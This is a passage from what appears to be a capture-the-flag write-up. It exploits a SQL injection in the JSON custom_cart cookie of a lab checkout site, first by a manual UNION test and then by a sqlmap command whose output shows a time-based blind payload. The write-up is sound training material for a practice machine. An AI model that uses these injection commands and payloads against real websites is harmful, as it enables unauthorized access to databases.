 But it doesn't show any data. It must be that the query is only taking
the first row of data, so with the query again, it gets the legit row
and then a row of `1,2,3`, only the legit row is used. I can test this
by making the id invalid:

[![](/img/image-20220713142315499.png)*Click
for full size
![image*](/img/image-20220713142315499.png)

It worked! I'll change my numbers to see what is being written back in
the response. Only the middle column generates data in a way that's
useful:

[![](/img/image-20220713142536987.png)*Click
for full size
![image*](/img/image-20220713142536987.png)

I have control over the third column as well, but only for numbers.

#### sqlmap

This SQLI is actually a bit tricky for `sqlmap` to find. If I pass it
just the URL and the cookie, I'll have to increase the level and risk,
and it will take 10 minutes:



    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --level 3 --risk 3
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.6.6.12#dev}
    |_ -| . [)]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V...       |_|   https://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage 
    caused by this program

    [*] starting @ 13:11:29 /2022-08-12/
    ...[snip]...
    [13:21:25] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 1763 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: time-based blind
        Title: MySQL > 5.0.12 AND time-based blind (heavy query)
        Payload: custom_cart={"' AND 2668=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- rRoO":"1"}
